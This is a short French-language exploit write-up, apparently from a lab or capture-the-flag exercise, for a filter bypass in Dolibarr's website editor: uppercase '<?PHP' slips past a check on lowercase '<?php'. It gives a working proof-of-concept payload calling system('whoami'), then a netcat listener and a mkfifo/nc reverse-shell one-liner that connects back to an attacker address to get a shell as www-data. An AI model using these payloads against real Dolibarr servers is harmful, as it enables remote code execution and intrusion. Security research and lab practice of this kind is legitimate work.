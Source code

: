                 <span class="font-semibold text-red-600 dark:text-red-400">Prérequis :</span> Authentification requise
            </div>
            <div>
                <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 8.8 (High)
            </div>
        </div>
        <p class="mt-4 p-3 bg-red-100 dark:bg-red-800/30 rounded">
            <strong>Description :</strong> Le filtre de sécurité bloque uniquement la syntaxe <code class="bg-red-200 dark:bg-red-900 px-1 rounded">&lt;?php</code> (minuscule), permettant l'injection de code PHP via <code class="bg-red-200 dark:bg-red-900 px-1 rounded">&lt;?PHP</code> (majuscule).
        </p>
    </div>
</div>

### Preuve de concept (PoC)

**Étapes d'exploitation :**

1. **Navigation :** Website → Create New Website
2. **Création d'une page web** dans l'éditeur Dolibarr
3. **Édition du source HTML** de la page
4. **Injection du payload PHP :**

```php
<?PHP echo system("whoami"); ?>
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Résultat :</strong> Le code s'exécute avec les privilèges de l'utilisateur <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded">www-data</code>
    </p>
</div>

### Obtention d'un reverse shell

**Configuration du listener sur la machine attaquante :**

```bash
nc -lnvp 4455
```

**Injection du payload reverse shell dans l'éditeur Dolibarr :**

```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f"); ?>
```

**Déclenchement du payload :** Accéder à la page créée via le navigateur

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtenu en tant que www-data !
    </p>
</div>
